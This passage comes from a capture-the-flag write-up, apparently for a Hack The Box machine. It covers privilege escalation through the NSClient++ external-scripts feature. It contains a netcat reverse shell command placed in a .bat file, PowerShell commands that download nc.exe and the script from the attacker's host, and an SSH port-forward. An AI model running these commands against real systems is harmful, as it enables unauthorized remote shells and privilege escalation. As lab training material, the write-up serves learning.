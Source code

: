 It's says we're not allowed, this is because the only allowed host is `127.0.0.1`.

We can make a local port forward using ssh to be able to login.

```terminal
ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```

![](7.png)

On exploit-db we find a Privilege escalation [exploit](https://www.exploit-db.com/exploits/46802) that `NSClient++` is vulnerable to.

![](9.png)

Let's follow the steps described in the exploit.

First we create a .bat file that has out reverse shell command.

```bash
c:\programdata\nc.exe 10.10.17.90 9001 -e cmd.exe
```

Now we upload a copy of `nc.exe` and the `.bat` file to the target.

```shell
PS C:\ProgramData> wget http://10.10.17.90/nc.exe -outfile nc.exe 
PS C:\ProgramData> wget http://10.10.17.90/evil.bat -outfile evil.bat
```

Now we got to `Settings > External Scripts > Scripts` and `Add New`.

![](8.png)

We save the changes and go to `Control` > `reload`.

Now we go to `Queries`.

![](10.png)

We choose `hack` and go to `Run`

![](11.png)

After setting up a listener we click run and we should get a shell.

![](12.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).